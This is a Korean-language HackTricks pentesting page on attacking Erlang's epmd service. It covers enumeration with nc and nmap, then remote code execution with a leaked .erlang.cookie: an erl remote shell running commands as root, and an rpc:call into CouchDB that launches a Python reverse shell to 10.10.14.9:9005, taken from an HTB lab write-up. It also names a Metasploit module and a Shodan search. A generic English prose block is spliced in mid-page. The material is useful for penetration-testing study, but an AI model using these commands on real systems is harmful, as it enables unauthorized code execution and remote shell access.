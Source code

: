 <details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**를** **팔로우**하세요.
* **Hacking 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>


# 기본 정보

**Erlang Port Mapper Daemon (epmd)**는 분산 Erlang 인스턴스의 조정자로 작동합니다. 이는 심볼릭 노드 이름을 기계 주소에 매핑하여 각 노드 이름이 특정 주소와 연결되도록 보장하는 역할을 합니다. **epmd**의 이 역할은 네트워크 상에서 서로 다른 Erlang 노드 간의 원활한 상호작용과 통신을 위해 중요합니다.

**기본 포트**: 4369
```
PORT     STATE SERVICE VERSION
4369/tcp open  epmd    Erlang Port Mapper Daemon
```
이것은 기본적으로 RabbitMQ 및 CouchDB 설치에서 사용됩니다.

# 열거

## 수동
```bash
echo -n -e "\x00\x01\x6e" | nc -vn <IP> 4369

#Via Erlang, Download package from here: https://www.erlang-solutions.com/resources/download.html
dpkg -i esl-erlang_23.0-1~ubuntu~xenial_amd64.deb
apt-get install erlang
erl #Once Erlang is installed this will promp an erlang terminal
1> net_adm:names('<HOST>'). #This will return the listen addresses
```
## 자동

The Erlang Port Mapper Daemon (EPMD) is a service that runs on the default port 4369 in Erlang-based systems. It is responsible for managing the distribution of Erlang nodes and facilitating communication between them.

EPMD provides a simple and lightweight protocol that allows Erlang nodes to register themselves and discover other nodes on the network. This makes it easier for Erlang applications to establish connections and communicate with each other.

As a pentester, it is important to understand EPMD and its potential security vulnerabilities. By exploiting weaknesses in EPMD, an attacker can gain unauthorized access to Erlang nodes and potentially compromise the entire system.

One common vulnerability is the lack of authentication in EPMD. By default, EPMD does not require any authentication, allowing anyone to connect to it and query information about registered nodes. This can be exploited by an attacker to gather information about the system and potentially launch further attacks.

Another vulnerability is the potential for EPMD to leak sensitive information. When a node registers with EPMD, it sends its name and IP address. This information can be intercepted by an attacker and used to gather intelligence about the system's architecture and potential targets.

To mitigate these vulnerabilities, it is recommended to secure EPMD by implementing authentication mechanisms. This can be done by configuring EPMD to require a password or by using SSL/TLS encryption to secure the communication between nodes.

Additionally, it is important to regularly update Erlang-based systems to ensure that any known vulnerabilities in EPMD are patched. By keeping the system up to date, you can minimize the risk of exploitation and protect your network from potential attacks.

In conclusion, understanding EPMD and its vulnerabilities is crucial for pentesters. By exploiting weaknesses in EPMD, an attacker can gain unauthorized access to Erlang nodes and compromise the system. Implementing authentication mechanisms and keeping the system up to date are essential for securing EPMD and protecting your network.
```bash
nmap -sV -Pn -n -T4 -p 4369 --script epmd-info <IP>

PORT     STATE SERVICE VERSION
4369/tcp open  epmd    Erlang Port Mapper Daemon
| epmd-info:
|   epmd_port: 4369
|   nodes:
|     bigcouch: 11502
|     freeswitch: 8031
|     ecallmgr: 11501
|     kazoo_apps: 11500
|_    kazoo-rabbitmq: 25672
```
# Erlang Cookie RCE

## 원격 연결

인증 쿠키를 유출할 수 있다면 호스트에서 코드를 실행할 수 있습니다. 일반적으로 이 쿠키는 `~/.erlang.cookie`에 위치하며, erlang에서 처음 시작할 때 생성됩니다. 수동으로 수정되거나 설정되지 않은 경우, 이는 길이가 20인 무작위 문자열 [A:Z]입니다.
```bash
greif@baldr ~$ erl -cookie YOURLEAKEDCOOKIE -name test2 -remsh test@target.fqdn
Erlang/OTP 19 [erts-8.1] [source] [64-bit] [async-threads:10]

Eshell V8.1 (abort with ^G)

At last, we can start an erlang shell on the remote system.

(test@target.fqdn)1>os:cmd("id").
"uid=0(root) gid=0(root) groups=0(root)\n"
```
더 많은 정보는 [https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/](https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/)에서 확인할 수 있습니다.\
저자는 쿠키를 무차별 대입하는 프로그램도 공유하고 있습니다:

{% file src="../.gitbook/assets/epmd_bf-0.1.tar.bz2" %}

## 로컬 연결

이 경우에는 CouchDB를 남용하여 권한을 로컬로 승격시킬 것입니다:
```bash
HOME=/ erl -sname anonymous -setcookie YOURLEAKEDCOOKIE
(anonymous@canape)1> rpc:call('couchdb@localhost', os, cmd, [whoami]).
"homer\n"
(anonymous@canape)4> rpc:call('couchdb@localhost', os, cmd, ["python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.9\", 9005));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"]).
```
예시는 [https://0xdf.gitlab.io/2018/09/15/htb-canape.html#couchdb-execution](https://0xdf.gitlab.io/2018/09/15/htb-canape.html#couchdb-execution)에서 가져왔습니다.\
**Canape HTB 머신을 사용하여** 이 취약점을 **공격하는 방법을 연습**할 수 있습니다.

## Metasploit
```bash
#Metasploit can also exploit this if you know the cookie
msf5> use exploit/multi/misc/erlang_cookie_rce
```
# Shodan

* `port:4369 "at port"`


<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>에서 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왑**](https://peass.creator-spring.com)을 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f)이나 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter**에서 **팔로우**하세요. 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)
* **HackTricks**와 **HackTricks Cloud** github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>
